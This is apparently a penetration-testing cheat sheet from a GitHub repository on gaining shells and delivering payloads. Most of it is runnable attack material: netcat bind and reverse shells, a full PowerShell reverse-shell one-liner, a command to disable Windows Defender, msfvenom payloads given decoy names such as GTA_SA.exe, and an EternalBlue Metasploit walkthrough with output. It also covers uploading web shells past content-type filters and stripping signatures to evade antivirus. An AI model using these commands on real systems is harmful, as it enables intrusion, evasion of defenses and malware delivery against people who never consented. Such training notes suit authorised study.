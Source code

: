# 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
search smb
```

Selecting an Exploit  

```bash
use 56
```

Examining an Exploit's Options  

```bash
options
```

Setting Options  

```bash
set RHOSTS <TARGET IP>
set SMBUser <USER>
set SMBPass <PASSWORD>
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When utilizing ICMP to determine if the host is up, a typical response from a Windows host will either be 32 or 128. A response of or around 128 is the most common response you will see.  

**Attack Machine:** Ping target
```bash
PING <TARGET IP> (<TARGET IP>): 56 data bytes
64 bytes from <TARGET IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <TARGET IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <TARGET IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <TARGET IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <TARGET IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <TARGET IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** File used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. Injecting a malicious DLL or hijacking a vulnerable library on the host can elevate our privileges to SYSTEM and/or bypass User Account Controls.

**Batch:** Text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter.  

**VBS:** Lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform an action such as enabling the loading of Macros in an excel document or clicking on a cell to have the Windows scripting engine execute a piece of code.

**MSI:** When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. We can use the Windows Installer by crafting a payload as an .msi file. Once we have it on the host, we can run msiexec to execute our file, which will provide us with further access, such as an elevated reverse shell.

**Powershell:** It is both a shell environment and scripting language. PowerShell can provide us with a plethora of options when it comes to gaining a shell and execution on a host, among many other steps in our penetration testing process.

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -n -Pn -sS -T4 -sV -sC -A -O --min-rate 5000 <TARGET IP> -oX nmap_target_xml_scan.xml
xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine if the targert is vulnerable** 

```bash
use auxiliary/scanner/smb/smb_ms17_010 
show options
set RHOSTS <TARGET IP>
run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_ms17_010) >> run

# [+] <TARGET IP>:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
# [*] <TARGET IP>:445       - Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
```

Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
search eternal
use exploit/windows/smb/ms17_010_psexec
options
set LHOST <ATTACKER IP>
set RHOSTS <TARGET IP>
```

Since I have had more luck with the psexec version of this exploit, we will try that one first. Let's choose it and continue the setup.
This time, we kept it simple and just used a windows/meterpreter/reverse_tcp payload.

**Attack Machine: Execute Our Attack**  

```bash
run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> run

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <TARGET IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <TARGET IP>:445 - Built a write-what-where primitive...
# [+] <TARGET IP>:445 - Overwrite complete... SYSTEM session obtained!
# [*] <TARGET IP>:445 - Selecting PowerShell target
# [*] <TARGET IP>:445 - Executing the payload...
# [+] <TARGET IP>:445 - Service start timed out, OK if running a command or non-service executable...
# [*] Sending stage (175174 bytes) to <TARGET IP>
# [*] Meterpreter session 1 opened (<ATTACKER IP>:4444 -> <TARGET IP>:49672) at 2025-06-24 13:13:34 -0400

# (Meterpreter 1)(C:\Windows\system32) > 
```

Now that we have an open session through Meterpreter, we are presented with the meterpreter > prompt
If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

**Attack Machine: Verify Our Session**  

```bash
getuid
```

Expected output  

```bash
# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell
```

Expected output  

```bash
# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml > /dev/null 1 2>&1

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
search rconfig
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
options
set RHOSTS <TARGET IP>
set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

There may be times that we land on a system with a limited shell, and Python is not installed. In these cases, it's good to know that we could use several different methods to spawn an interactive shell. 

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

If the programming language Ruby is present on the system, this command will execute the shell interpreter specified:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

If the programming language Lua is present on the system, we can use the os.execute method to execute the shell interpreter specified using the full command below:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a C-like pattern scanning and processing language present on most UNIX/Linux-based systems, widely used by developers and sysadmins to generate reports. It can also be used to spawn an interactive shell. 

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell is a browser-based shell session we can use to interact with the underlying operating system of a web server. To achieve persistence on a system, in many cases, this is the initial way of gaining remote code execution via a web application, which we can then use to later upgrade to a more interactive reverse shell.

During our external penetration tests, we most commonly "get in" (gain a foothold inside the internal network) via web application attacks (file upload attacks, SQL injection, RFI/LFI, command injection, etc.), password spraying (against RDS, VPN portals, Citrix, OWA, and other applications using Active Directory authentication), and social engineering.

Web applications are often the majority of what we see exposed during an external network assessment and often present an enormous attack surface. We may find publicly available file upload forms that let us directly upload a PHP, JSP, or ASP.NET web shell.

<details>
<summary><h2>Laudanum</h2></summary>  

Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. The repo includes injectable files for many different web application languages to include asp, aspx, jsp, php, and more.

<details>
<summary><h3>Installation</h3></summary>  

Laudanum is built into Parrot OS and Kali by default. For any other distro, you will likely need to pull a copy down to use.

**Clone the repository**
```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum files can be found in the /usr/share/laudanum directory. For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

Antak is a web shell built in ASP.Net included within the Nishang project. Nishang is an Offensive PowerShell toolset that can provide options for any portion of your pentest. 

Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server. The UI is even themed like PowerShell.

<details>
<summary><h3>Installation</h3></summary>  

The Antak files can be found in the /usr/share/nishang/Antak-WebShell directory or in this [file](../scripts/shells/antak.aspx) included in this repository.

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/samratashok/nishang.git /usr/share/nishang/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Move a Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./shell.aspx
```

**Modify the Shell for Use**

Make sure you set credentials for access to the web shell (This can help make your operations more secure by ensuring random people can't just stumble into using the shell).

> **Note:** It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master). We can download this or copy and paste the source code into a .php file.

<details>
<summary><h3>Installation</h3></summary>  

The script can be found [here](../scripts/shells/antak.aspx) or cloning WhiteWinterWolf's [repository](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master).

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git /usr/share/wwwolf-php-webshell/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Proxy Settings**

Start Burp Suite, navigate to the browser's network settings menu and fill out the proxy settings. 127.0.0.1 will go in the IP address field, and 8080 will go in the port field to ensure all requests pass through Burp (recall that Burp acts as the web proxy).

> **Note:** Our goal is to change the content-type to bypass the file type restriction in uploading files to be "presented" as something else so we can navigate to that file and have our web shell.

**Bypassing the File Type Restriction**  

We will change Content-type from application/x-php to image/gif. This will essentially "trick" the server and allow us to upload the .php file, bypassing the file type restriction. Once we do this, we can select Forward.

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Considerations when Dealing with Web Shells
</h2></summary>  

When utilizing web shells, consider the below potential issues that may arise during your penetration testing process:

* Web applications sometimes automatically delete files after a pre-defined period
* Limited interactivity with the operating system in terms of navigating the file system, downloading and uploading files, chaining commands together may not work (ex. whoami && hostname), slowing progress, especially when performing enumeration -Potential instability through a non-interactive web shell
* Greater chance of leaving behind proof that we were successful in our attack

Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and cover our tracks. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. 

</details>

</details>
